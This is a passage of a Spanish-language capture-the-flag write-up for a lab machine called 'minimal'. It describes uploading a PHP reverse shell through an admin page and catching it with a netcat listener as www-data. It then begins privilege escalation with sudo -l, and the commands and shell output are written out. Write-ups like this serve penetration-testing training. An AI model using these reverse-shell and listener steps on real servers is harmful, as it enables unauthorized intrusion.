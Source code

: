 Tras ejecutar el script, podremos iniciar sesión como **admin** debido con la contraseña que hayamos elegido y acceder a "/admin.php".

### admin.php

![img](/imgs/write-ups/by-me/minimal/minimal_4.png)

Ahora lo único que hay que hacer es subir una **reverse shell** en php que pueda ejecutar el servidor.

## Escalado de privilegios

Obtengo conexión como el usuario **www-data**.

```
h3rshel@kali:~/Desktop/tools$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.118] from (UNKNOWN) [192.168.1.125] 40044
Linux minimal 5.15.0-88-generic #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 20:52:45 up 45 min,  0 users,  load average: 0.02, 0.08, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script -qc /bin/bash /dev/null
www-data@minimal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on minimal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
```